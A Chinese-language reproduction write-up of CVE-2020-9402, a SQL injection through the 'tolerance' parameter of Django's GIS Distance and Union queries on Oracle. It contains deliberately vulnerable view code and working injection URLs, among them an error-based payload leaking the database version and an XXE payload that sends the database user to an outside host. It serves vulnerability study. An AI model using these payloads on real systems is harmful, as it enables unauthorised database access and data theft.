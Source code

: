 （CVE-2020-9402）Django Geo sql注入
===================================

一、漏洞简介
------------

Django
1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

二、漏洞影响
------------

Django
1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞

三、复现过程
------------

根据官网的修复https://github.com/django/django/commit/6695d29b1c1ce979725816295a26ecc64ae0e927\#diff-229e38ececbfc591f7a5e595bf5707c4，可以看到问题出在GIS的查询上面

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId24.png)

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId25.png)

官方只修复了这两个位置，可以发现基本上是对于`tolerance`参数进行判断是否为数字。那首先来了解一下GIS查询。

GIS查询API是一个地理位置的查询API，提供用户存储精确GPS的位置的数据模块，属于一个空间数据库，我们可以通过如下的经纬度信息

    pnt = GEOSGeometry('POINT(-96.876369 29.905320)', srid=4326)

    >>>SRID=4326;POINT (-96.876369 29.90532)

来获得一个具体的定位信息,通过如下的模块来构建一个基本的地理信息存储

    from django.contrib.gis.db import models
    class Names(models.Model):
        name = models.CharField(max_length=128)

        def __str__(self):
            return self.name

    class Interstate(Names):
        path = models.LineStringField()

后台存储的时候发出path的信息为json数据，例如

    {"type":"LineString","coordinates":[[-8167.236601807093,-3286.248045708844],[-7896.285624495958,-3324.9553281818644],[1083.8039092445451,-654.1528375435246]]}

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId26.png)

我们就获得了一个基本的地理位置数据,同理，通过构造一个聚合的查询方法

    def vuln(request):
        q = request.GET.get('q')
        qs=Interstate.objects.annotate(
                d=Distance(
                    Point(-0.0733675346842369, -0.0295208671625432, srid=4326),
                    Point(0.009735976166628611, -0.00587635491086091, srid=4326),
                    tolerance = q, # default 0.05
                ),
            ).filter(d=D(m=1)).values('name')

因为官网文档找不到如何构造Point查询，因此为了省事，直接写死了Point数值。。srid为空间参考的投影设置，默认值为4326。其中`tolerance`是对于oracle特殊存在的一个键值，其作用是基本你的容错率，详细的信息可以参考[oracle官方文档](https://docs.oracle.com/en/database/oracle/oracle-database/18/spatl/spatial-concepts.html#GUID-CE10AB14-D5EA-43BA-A647-DAC9EEF41EE6)。对应的查询语句为

    SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY;

**0x02代码分析**首先从传入一个url

    http://127.0.0.1:8000/vuln/?q=20) = 1 OR 1=1 OR (1%2B1

从`annotate`聚合函数开始跟进，同普通的model函数查询一样，gis查询虽然拥有着单独的model模块，但依旧还是依靠着普通model中进行过滤和查询。从gis的model文件夹中的`__init__.py`文件中看

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId28.png)

主要的查询依然调用的是django最基本的db方法，而其中单独定义了`function`方法等一些对地理位置插叙独特的方法。程序运行到`/django/db/models/manager.py`文件中的`_get_queryset_methods`后，获取到tolerant参数之后便直接进入到gis模块中进行查询

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId29.png)

继而进入到`django/contrib/gis/measure.py`文件中的`MeasureBase`类中进行方法调用，那么后面的方法分析可以跳过，因此直接来到漏洞代码段。先来看gis
API中的functions函数，在as\_oracle方法这一段

    def as_oracle(self, compiler, connection, **extra_context):
        tol = self.extra.get('tolerance', self.tolerance)
        return self.as_sql(
            compiler, connection,
            template="%%(function)s(%%(expressions)s, %s)" % tol,
            **extra_context
        )

`tolerance`
从self.extra.get导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为0.05，并且将其直接传入到新的变量中。之后则不对tol进行任何处理直接拼接到template字符串中并且传入`as_sql`方法。那么官方对于as\_sql的文档是，此方法需要一个SQLCompiler对象，位于`django/db/models/sql/compiler.py`文件中。而我们只需要知道在该对象中有一个`compile()`方法，该方法可以返回一个包含SQL字符串的元祖，而SQLComiler对象中的query变量则是存储直接进行SQL查询语句的SQL命令。从而两个Point分别进入`compile`方法中进行拼接

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId30.png)

不知道为什么，用pycharm在as\_oracle下断点的时候，第一次到达SQLCompiler的时候，pycharm不会在as\_oracle函数中停下来，而是在第二次查询的时候才会停，但是经过测试确实是在进入SQLCompiler之前调用过as\_orcle函数，可能是pycharm没有正确识别重载函数吧。之后template构造模版也因此进入到`expression.py`中的as\_sql函数中进行字符串构造

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId31.png)

因此最后进入oracle的命令语句是

    SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) = 1 OR 1=1  OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY;

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId32.png)

带入数据库中查询

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId33.png)

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId34.png)

官方修复的方法就是加入Value函数，判断传入的值是否为数字，否的话直接报错推出。那么第二个注入点就是`Union`了，建立Model

    class City(Names):
        point = models.PointField()  # 点模块

编辑传入的参数为

    {"type":"Point","coordinates":[13250.226757682816,68815.69380603009]}

view中设置查询

    from django.contrib.gis.db.models import Union
    def vuln2(request):
        q = request.GET.get('q')
        res = City.objects.aggregate(
                Union('point', tolerance=q),
        )
        return HttpResponse(res)

输入url

    http://127.0.0.1:8000/vuln2?q=0.05)))%2C%20(((1

首先看结果，得到的SQL查询语句为

    SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT",0.05))), (((1))) AS "POINT__UNION" FROM "APP_CITY";

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId35.png)

该aggregate查询方法是GIS查询特定的一种查询方法，为的是与地理查询的语句做适配,用法跟原模块的方法类似。因此跟进GIS模块中的聚合查询方法，位于`django/contrib/gis/db/models/aggregates.py`文件内的as\_oracle方法。

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId36.png)

同样tolerance没有做任何检查直接传入了template模版语句中，原理与上面annotate查询过程一致。利用有大致两个方法报错注入

    http://localhost:8000/test/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v%24instance)) from dual) is null%20 OR (1%2B1

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId37.png)

CVE-2014-6577因为Django自2.0以后支持的oracle版本为12以上，因此可以尝试oracle
XXE来进行SQL的注入。同时因为在SQL处理的过程中有三次利用%的模版跳转，因此需要在XMLpayload中的%替换为%%%%，payload为

    http://localhost:8000/test/?q=20) = 1 OR (select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%25%25%25%20remote%20SYSTEM%20%22http%3A%2F%2Fdocker.for.mac.host.internal%3A9000%2F'%7C%7C(SELECT%20user%20from%20dual)%7C%7C'%22%3E%20%25%25%25%25remote%3B%5D%3E')%2C'%2Fl')%20from%20dual)%20is%20not%20null OR (1%2B1

![](./.resource/(CVE-2020-9402)DjangoGeosql注入/media/rId38.png)

命令执的话因为是docker起的oracle所以没有设置JAVA的环境，暂时也不能判定有没有，以后再研究看看。

参考链接
--------

> https://xz.aliyun.com/t/7403
